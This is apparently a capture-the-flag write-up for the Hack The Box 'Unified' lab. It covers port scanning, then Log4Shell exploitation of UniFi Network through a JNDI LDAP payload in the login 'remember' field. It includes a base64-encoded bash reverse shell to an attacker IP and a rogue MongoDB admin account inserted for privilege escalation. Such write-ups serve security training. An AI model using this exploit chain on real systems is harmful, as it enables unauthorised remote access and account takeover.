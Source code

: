 ```yaml
---
layout: post
title: 'HTB | Unified'
permalink: /ctf/htb/starting-point/unified/
---
```


# Enumeration
First we scan the IP:
{% highlight plain %}
# Nmap 7.92 scan initiated Sat Apr 30 17:11:00 2022 as: nmap -A -oN nmap 10.129.213.225
Nmap scan report for 10.129.213.225
Host is up (0.091s latency).
Not shown: 996 closed tcp ports (conn-refused)
PORT     STATE SERVICE         VERSION
22/tcp   open  ssh             OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 48:ad:d5:b8:3a:9f:bc:be:f7:e8:20:1e:f6:bf:de:ae (RSA)
|   256 b7:89:6c:0b:20:ed:49:b2:c1:86:7c:29:92:74:1c:1f (ECDSA)
|_  256 18:cd:9d:08:a6:21:a8:b8:b6:f7:9f:8d:40:51:54:fb (ED25519)
6789/tcp open  ibm-db2-admin?
8080/tcp open  http-proxy
|_http-open-proxy: Proxy might be redirecting requests
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.1 404 
|     Content-Type: text/html;charset=utf-8
|     Content-Language: en
|     Content-Length: 431
|     Date: Sat, 30 Apr 2022 21:11:08 GMT
|     Connection: close
|   GetRequest, HTTPOptions: 
|     HTTP/1.1 302 
|     Location: http://localhost:8080/manage
|     Content-Length: 0
|     Date: Sat, 30 Apr 2022 21:11:08 GMT
|     Connection: close
|   RTSPRequest, Socks5: 
|     HTTP/1.1 400 
|     Content-Type: text/html;charset=utf-8
|     Content-Language: en
|     Content-Length: 435
|     Date: Sat, 30 Apr 2022 21:11:08 GMT
|     Connection: close
|_http-title: Did not follow redirect to https://10.129.213.225:8443/manage
8443/tcp open  ssl/nagios-nsca Nagios NSCA
| http-title: UniFi Network
|_Requested resource was /manage/account/login?redirect=%2Fmanage
| ssl-cert: Subject: commonName=UniFi/organizationName=Ubiquiti Inc./stateOrProvinceName=New York/countryName=US
| Subject Alternative Name: DNS:UniFi
| Not valid before: 2021-12-30T21:37:24
|_Not valid after:  2024-04-03T21:37:24
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Apr 30 17:13:57 2022 -- 1 IP address (1 host up) scanned in 176.85 seconds
{% endhighlight %}

---

# Explotation
We can see that UniFi Network has the version **6.4.54**, which correspond to **CVE-2021-44228**.
We can use this [guide](https://www.sprocketsecurity.com/blog/another-log4j-on-the-fire-unifi) to perform the explotation.

We need to download **Maven** and the exploit:
{% highlight bash %}
> sudo apt install maven
> git clone https://github.com/veracode-research/rogue-jndi && cd rogue-jndi && mvn package
{% endhighlight %}

Now we need to build a **nc** and send it to the Unified:
{% highlight bash %}
> echo 'bash -c bash -i >&/dev/tcp/10.10.15.167/4444 0>&1' | base64
> java -jar target/RogueJndi-1.1.jar --command "bash -c {echo,YmFzaCAtYyBiYXNoIC1pID4mL2Rldi90Y3AvMTAuMTAuMTUuMTY3LzQ0NDQgMD4mMQo}|{base64,-d}|{bash,-i}" --hostname "10.10.15.167" 
{% endhighlight %}

With Burp we need to capture the login request and change the parameter **"remember"** with: **"${jndi:ldap://10.10.15.167:1389/o=tomcate}"**.
<img src="https://raw.githubusercontent.com/zeropio/zeropio.github.io/main/_posts/ctf/htb/starting-point/img/01-13-00-44.png" weight="100%" />

Open a nc on the port 4444 and send the request in Burp, now we have the reverse shell-

---

# Privilage Escalation
We know that Unified use MongoDB. First we will dump the password hashes from the database:
{% highlight bash %}
> mongo --port 27117 ace --eval "db.admin.find().forEach(printjson);"
{% endhighlight %}

We can try to crack the admin password, but we will add a new super user. First we make a new hash.
{% highlight bash %}
> mkpasswd -m sha-512 1234
{% endhighlight %}

Then we add the user:
{% highlight bash %}
> mongo --port 27117 ace --eval 'db.admin.insert({ "email" : "admin@localhost.local", "last_site_name" : "default", "name" : "admin", "time_created" : NumberLong(100019800), "x_shadow" : "$6$qm/d5rgtChdHSEXn$.YaObD5D3HuqhAXKtj7vpEn5Fwmw9yPgkydVUySQ2bBv522IEaSWr3.kYxLa22n5qHcXxU2ANiQzOrh.G4dli." })'
{% endhighlight %}
We can check it we the same command.
{% highlight bash %}
mongo --port 27117 ace --eval "db.admin.find().forEach(printjson);"
{% endhighlight %}

Now we need to copy our **object id** and the admin **object id** and replace:
{% highlight bash %}
> mongo --port 27117 ace --eval 'db.privilege.insert({ "admin_id" : "626e85b9f56273cd5f3e6b9e", "permissions" : [ ], "role" : "admin", "site_id" : "61ce278f46e0fb0012d47ee4" });'
{% endhighlight %}

Now we can login with our new user. We can find ssh credentials inside the configuration, so we can login with root.